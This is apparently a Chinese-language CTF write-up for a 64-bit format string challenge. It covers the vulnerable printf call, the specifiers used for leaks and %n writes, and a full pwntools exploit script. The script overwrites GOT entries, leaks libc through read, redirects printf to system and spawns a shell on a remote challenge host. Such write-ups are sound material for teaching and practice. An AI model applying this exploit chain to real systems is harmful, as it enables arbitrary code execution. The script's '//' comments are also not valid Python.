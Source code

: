 # 格式化字符串
## 漏洞点

``` printf的汇编代码
.text:00000000004006E1                 lea     rdi, aInteresting ; "Interesting "
.text:00000000004006E8                 mov     eax, 0
.text:00000000004006ED                 call    _printf
.text:00000000004006F2                 lea     rax, [rbp+buf]
.text:00000000004006F9                 mov     rdi, rax        ; format  //很明显的格式化字符串漏洞
.text:00000000004006FC                 mov     eax, 0
.text:0000000000400701                 call    _printf
.text:0000000000400706                 lea     
```
如果不清楚，可以看其源码

```
unsigned __int64 sub_40069D()
{
  char buf; // [rsp+0h] [rbp-410h]
  unsigned __int64 v2; // [rsp+408h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("What do you mean this time? ");
  read(0, &buf, 0x400uLL);
  printf("Interesting ", &buf);
  printf(&buf);  //格式化字符串漏洞
  puts(" food for thought");
  return __readfsqword(0x28u) ^ v2;
}
```
## 利用漏洞点
1. 先说一下printf的格式化字符串：</br>
<ul>
  <li> %c：输出字符，配上%n可用于向指定地址写数据。</li>
  <li>%d：输出十进制整数，配上%n可用于向指定地址写数据。</li>
  <li>%x：输出16进制数据，如%i$x表示要泄漏偏移i处4字节长的16进制数据，%i$lx表示要泄漏偏移i处8字节长的16进制数据，32bit和64bit环境下一样。</li>
  <li>%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是   64bit。</li>
  <li>%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。</li>
  <li>%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100x10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。</li>
  <li>%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。</li>
</ul>

printf的参数是可变的，可以是一个，两个，或者没有。printf会根据内存顺序读取参数，如果有格式化字符，就顺序分析。</br>

2. __利用思路__:
<p>首先确定格式化字符串在栈中的偏移，这里想要一直利用格式化字符串的漏洞，就得让其“循环”起来，可以一直调用printf函数。这里修改函数中用的最多的函数put为main函数地址，可以多次利用printf的漏洞，通过%s来泄漏在printf前运行过的函数，这里通过泄漏read的地址来泄漏libc，从而得到system地址。最后修改printf的got地址为system地址，在程序调用printf时，实际上是调用的system函数，最后，send‘/bin/sh\x00’作为system的参数。</p>

## 利用脚本
这道题目的偏移量为6。</br>

```
from pwn import *
from LibcSearcher import LibcSearcher
r = remote("vps1.blue-whale.me",19904)
elf = ELF('./pwn1')
#context.log_level='debug'

//修改puts_got地址为main的地址，达到多次利用漏洞的效果
main_addr = 0x40069D
puts_got = elf.got['puts']
r.recvuntil("What do you mean this time? ")
payload = "a%" + str(main_addr-1) + "c%8$lln" + p64(puts_got)  //这里为什么不用hhn?因为地址中有\x00，由于64位下用户可见的内存地址高位都带</br>有\x00，容易截断我们构造的内容，所以把地址放在后边。其实作用一样，地址放哪都一样。这里的8是因为a%..c和%8$lln占了两个参数，分别为第六和第七个参</br>数。相对于printf为第7和第8个参数。
#print payload
r.sendline(payload)

//泄漏read地址
read_got = elf.got['read']
r.recvuntil("What do you mean this time? ")
payload = "AAAA%7$s" + p64(read_got) //AAAA%7$s占一个参数，为第六个参数
r.sendline(payload)
r.recvuntil("Interesting ")
read_addr=u64(r.recvuntil("\x30",drop=True)[4:].ljust(8,'\x00'))
print hex(read_addr)

//泄漏libc,得到system地址
libc = LibcSearcher("read",read_addr)
libcbase = read_addr-libc.dump('read') 
system_addr = libcbase +libc.dump('system')
print hex(system_addr)

//修改printf_got为system地址，由打印出的地址可以看出，除了最后三个字节，其他字节都一样，system地址分三次单字节写入即可。
printf_got = elf.got['printf']
print hex(printf_got)
first = system_addr & 0xff  //低字节
second = (system_addr>>8) & 0xff //倒数第二个字节
third = (system_addr>>16) & 0xff //最后一个字节
payload = "%" + str(first) + "c%11$hhn"   //这里的11，是前边格式化字符串占了参数的位置，即顺序后延，格式化字符的第一个参数是在偏移11的位置，</br>n是把输出字符的个数写入相应位置，把低字节\x..转为十进制的字符串，c表示字符个数，%123c表示123个字符串，在写入内存时，又以十六进制的形式写入，</br>即把低字节\x..写入
payload += "%" + str(256-first+second) + "c%12$hhn"  //这里为什么用256减，因为要想把第二个字节写入，得需要减去第一个字节的个数，有可能第二个</br>字节小于第一个字节，相减得到负数就会出错，这里向高位借1，即0x100=256,相当于取模。比如0x550423,第二个字节为0x04,而第一个字节为</br>0x23,0x100+0x04-0x23=0xE1,实际写入的是0xE1+0x23=0x104,但是是单字节写入，会把高位给移出，还是写入的0x04。
payload += "%" + str(256-second+third) + "c%13$hhn"
payload += 'AAAA' //剩下的字节随便填充即可

if len(str(first))<3: //这里保证写入的地址为8的整数倍
    payload += 'A'
if len(str(256-first+second))<3:
    payload += 'A'
if len(str(256-first+third))<3:
    payload += 'A'
payload += p64(printf_got)
payload += p64(printf_got + 1)
payload += p64(printf_got + 2)

r.sendline(payload)

r.sendline("/bin/sh\x00") //printf("/bin/sh")-->system("/bin/sh")

r.interactive()

```

## 参考文章：
http://www.sohu.com/a/130725162_472906 </br>
https://www.cnblogs.com/ichunqiu/p/9329387.html
